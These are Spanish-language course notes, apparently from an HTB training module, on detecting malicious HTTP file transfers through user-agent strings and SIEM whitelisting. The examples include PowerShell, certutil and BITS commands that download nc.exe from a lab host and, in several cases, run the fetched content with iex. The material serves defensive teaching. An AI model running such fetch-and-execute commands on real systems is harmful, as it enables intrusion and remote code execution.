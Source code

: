 # Detection

La detección de comandos en la línea de comandos basada en listas negras es fácil de evadir, incluso utilizando obfuscación básica de mayúsculas y minúsculas. Sin embargo, aunque el proceso de crear una lista blanca de todas las líneas de comando en un entorno específico es inicialmente lento, es muy robusto y permite una detección rápida y alertas sobre cualquier línea de comandos inusual.

La mayoría de los protocolos cliente-servidor requieren que el cliente y el servidor negocien cómo se entregará el contenido antes de intercambiar información. Esto es común en el protocolo **HTTP**. Existe la necesidad de interoperabilidad entre diferentes servidores web y tipos de navegadores para asegurar que los usuarios tengan la misma experiencia sin importar su navegador. Los clientes HTTP son identificados principalmente por su **cadena de agente de usuario** (user agent string), que el servidor utiliza para identificar qué cliente HTTP se está conectando, como Firefox, Chrome, etc.

Los agentes de usuario no solo se utilizan para identificar navegadores web, sino que cualquier cosa que actúe como cliente HTTP y se conecte a un servidor web mediante HTTP puede tener una cadena de agente de usuario (por ejemplo, **cURL**, un script personalizado en **Python**, o herramientas comunes como **sqlmap** o **Nmap**).

Las organizaciones pueden tomar medidas para identificar posibles cadenas de agentes de usuario maliciosas construyendo una lista de agentes de usuario legítimos conocidos, agentes de usuario utilizados por procesos predeterminados del sistema operativo, agentes comunes utilizados por servicios de actualización (como **Windows Update** y actualizaciones de antivirus, etc.). Estos se pueden alimentar en una herramienta **SIEM** utilizada para **caza de amenazas** (threat hunting) para filtrar el tráfico legítimo y centrarse en anomalías que puedan indicar comportamiento sospechoso. Cualquier cadena de agente de usuario sospechosa puede investigarse para determinar si fue utilizada para realizar acciones maliciosas.

Un sitio web útil para identificar cadenas comunes de agentes de usuario es [este sitio](https://useragents.io/). Una lista de cadenas de agentes de usuario está disponible aquí.

Las transferencias de archivos maliciosas también pueden detectarse mediante sus cadenas de agentes de usuario. A continuación, se muestran algunos ejemplos de agentes de usuario y encabezados observados en técnicas comunes de transferencia HTTP (probadas en **Windows 10, versión 10.0.14393**, con **PowerShell 5**).

### **Invoke-WebRequest - Cliente**

```bash
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"
PS C:\htb> Invoke-RestMethod http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"
```

### **Invoke-WebRequest - Servidor**

```
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.14393.0
```

### **WinHttpRequest - Cliente**

```bash
PS C:\htb> $h=new-object -com WinHttp.WinHttpRequest.5.1;
PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\htb> $h.send();
PS C:\htb> iex $h.ResponseText
```

### **WinHttpRequest - Servidor**

```
GET /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)
```

### **Msxml2 - Cliente**

```bash
PS C:\htb> $h=New-Object -ComObject Msxml2.XMLHTTP;
PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\htb> $h.send();
PS C:\htb> iex $h.responseText
```

### **Msxml2 - Servidor**

```
GET /nc.exe HTTP/1.1
Accept: */*
Accept-Language: en-us
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)
```

### **Certutil - Cliente**

```bash
C:\htb> certutil -urlcache -split -f http://10.10.10.32/nc.exe
C:\htb> certutil -verifyctl -split -f http://10.10.10.32/nc.exe
```

### **Certutil - Servidor**

```
GET /nc.exe HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Accept: */*
User-Agent: Microsoft-CryptoAPI/10.0
```

### **BITS - Cliente**

```bash
bashCopiar códigoPS C:\htb> Import-Module bitstransfer;
PS C:\htb> Start-BitsTransfer 'http://10.10.10.32/nc.exe' $env:temp\t;
PS C:\htb> $r=gc $env:temp\t;
PS C:\htb> rm $env:temp\t;
PS C:\htb> iex $r
```

### **BITS - Servidor**

```
HEAD /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
User-Agent: Microsoft BITS/7.8
```

Esta sección es solo una introducción sobre cómo detectar transferencias de archivos maliciosas. Sería un excelente punto de partida para cualquier organización crear una **lista blanca** de binarios permitidos o una **lista negra** de binarios conocidos por ser utilizados con fines maliciosos. Además, buscar cadenas de agentes de usuario anómalas puede ser una excelente manera de detectar un ataque en progreso. Cubriremos técnicas de caza de amenazas y detección en profundidad en módulos posteriores.
